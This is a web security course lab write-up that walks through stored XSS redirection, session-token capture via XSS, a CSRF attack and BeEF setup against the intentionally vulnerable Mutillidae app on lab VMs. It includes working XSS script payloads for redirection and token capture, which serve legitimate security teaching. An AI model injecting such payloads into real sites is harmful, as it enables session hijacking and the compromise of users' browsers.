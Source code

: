 # INFO-6076 – Web Security
## Lab 03: XSS, CSRF, and BeEF

### Lab Requirements
- Internet connectivity & VMware Workstation version 15.5.7 or above.
- Mutillidae installed and running on the Ubuntu VM.

---

### Part 01: Stored XSS Page Redirection
**Task**: Exploit stored XSS to redirect users to an external site.
**Steps**:
1. On Kali VM, navigate to Mutillidae and reset the database.
2. Go to OWASP 2017 -> A7 - Cross Site Scripting (XSS) -> Persistent -> Add to your blog.
3. Enter `<script>window.location = "http://www.offensive-security.com/"</script>` in the blog entry.
4. On Windows 10 VM, open Firefox, go to Mutillidae, and observe the redirection in action.
**Screenshot**:
<img src="https://i.imgur.com/QmlEb1i.png" height="400px" width="auto" alt="Stored XSS Page Redirection"/>

---

### Part 02: Grabbing Session Tokens with Stored XSS
**Task**: Capture session tokens using XSS.
**Steps**:
1. Still on Kali VM, after resetting the database, create a user 'FOLusername'.
2. Log in and insert `<script>document.location="http://folusernameuws/mutillidae/index.php?page=capture-data.php"</script>` to the blog.
3. On Windows 10 VM, log in as a different user and access the blog to trigger token capture.
**Screenshot**:
<img src="https://i.imgur.com/jSgEDnl.png" height="400px" width="auto" alt="Session Tokens Captured"/>

---

### Part 03: Cross Site Request Forgery (CSRF)
**Task**: Carry out a CSRF attack.
**Steps**:
1. Find the CSRF code in Mutillidae-Test-Scripts.txt using directory traversal.
2. Modify the code to add a fake news entry and insert it into the blog page.
3. On Windows 10 VM, log in as 'FOLusername' and hover over the malicious text to trigger the CSRF.
**Screenshot**:
<img src="https://i.imgur.com/uRBmyWe.png" height="400px" width="auto" alt="CSRF Attack Demonstration"/>

---

### Part 04: BeEF Setup
**Task**: Install and configure BeEF on Kali Linux.
**Steps**:
1. Clone the BeEF repo and navigate to the directory to install it.
2. Start BeEF using `./beef` and log into the control panel.
3. Prepare a hook.js script and embed it into a webpage.
**Screenshot**:
<img src="https://i.imgur.com/USebYOE.png" height="400px" width="auto" alt="BeEF Setup"/>

---